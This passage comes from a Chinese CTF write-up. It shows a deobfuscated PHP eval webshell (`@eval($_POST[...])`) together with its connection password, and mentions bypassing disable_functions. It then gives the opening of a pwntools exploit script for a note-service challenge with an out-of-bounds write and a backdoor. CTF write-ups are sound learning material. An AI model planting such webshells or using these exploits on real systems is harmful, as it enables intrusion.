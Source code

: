 ```php
```

解混淆可以知道 RCE 代码为`<?php @eval($_POST['cmd_66.99'])?>`，根据 php 特性可以知道连接密码`cmd[66.99`

bypass disable functions 后 find 找 flag 即可：

![img](https://or4nge-images.zeroc0077.cn/writeups/2024/ciscn-18/img_0.png)

## Pwn

### anote

存在越界写和后门，可以通过 edit 触发：

```python
from pwn import *
from pwn import u32, u64, p32, p64
import sys

context.log_level = "debug"
context.arch = "i386"
context.terminal = ['tmux', 'splitw', '-h']

if len(sys.argv) < 2:
    debug = True
else:
    debug = False
# libc = ELF("./libc.so.6")
elf = ELF("./note")
if debug:
    p = process("./note")
else:
    p = remote(sys.argv[1], int(sys.argv[2]), ssl=False)

def ru(x): return p.recvuntil(x)
def sn(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def uu32(x): return u32(x.ljust(4, b'\0'))
def uu64(x): return u64(x.ljust(8, b'\0'))

def debug(b=0):
    if debug:
        if b:
            gdb.attach(p, "b *0x8048AB1")
        else:
            gdb.attach(p)

def menu(choice):
    p.recvuntil(b'Choice>>')
    p.sendline(str(choice).encode())

def add():
    menu(1)

def show(index):
    menu(2)
    p.sendlineafter(b'index:', str(index).encode())
    p.recvuntil(b'gift: ')
    addr = int(p.recvline().strip().decode(), 16)
    return addr
```